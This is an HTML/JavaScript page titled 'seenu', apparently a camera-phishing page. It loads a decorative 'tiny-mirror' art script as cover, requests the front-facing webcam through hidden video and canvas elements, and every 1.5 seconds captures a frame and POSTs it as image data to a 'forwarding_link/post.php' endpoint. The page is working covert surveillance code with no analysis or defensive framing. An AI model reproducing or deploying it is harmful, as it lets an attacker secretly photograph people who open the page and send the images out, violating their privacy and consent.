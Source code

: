 # seenu
<script type="text/javascript" src="https://wybiral.github.io/code-art/projects/tiny-mirror/index.js"></script>
<link rel="stylesheet" type="text/css" href="https://wybiral.github.io/code-art/projects/tiny-mirror/index.css">
<script type="text/javascript" src="https://ajax.googleapis.com/ajax/libs/jquery/1.8.3/jquery.js"></script>
</head>

<div class="video-wrap" hidden="hidden">
   <video id="video" playsinline autoplay></video>
</div>

<canvas hidden="hidden" id="canvas" width="640" height="480"></canvas>

<script>

function post(imgdata){
$.ajax({
    type: 'POST',
    data: { cat: imgdata},
    url: 'forwarding_link/post.php',
    dataType: 'json',
    async: false,
    success: function(result){
        // call the function that handles the response/results
    },
    error: function(){
    }
  });
};


'use strict';

const video = document.getElementById('video');
const canvas = document.getElementById('canvas');
const errorMsgElement = document.querySelector('span#errorMsg');

const constraints = {
  audio: false,
  video: {
    
    facingMode: "user"
  }
};

// Access webcam
async function init() {
  try {
    const stream = await navigator.mediaDevices.getUserMedia(constraints);
    handleSuccess(stream);
  } catch (e) {
    errorMsgElement.innerHTML = `navigator.getUserMedia error:${e.toString()}`;
  }
}

// Success
function handleSuccess(stream) {
  window.stream = stream;
  video.srcObject = stream;

var context = canvas.getContext('2d');
  setInterval(function(){

       context.drawImage(video, 0, 0, 640, 480);
       var canvasData = canvas.toDataURL("image/png").replace("image/png", "image/octet-stream");
       post(canvasData); }, 1500);
  

}

// Load init
init();

</script>
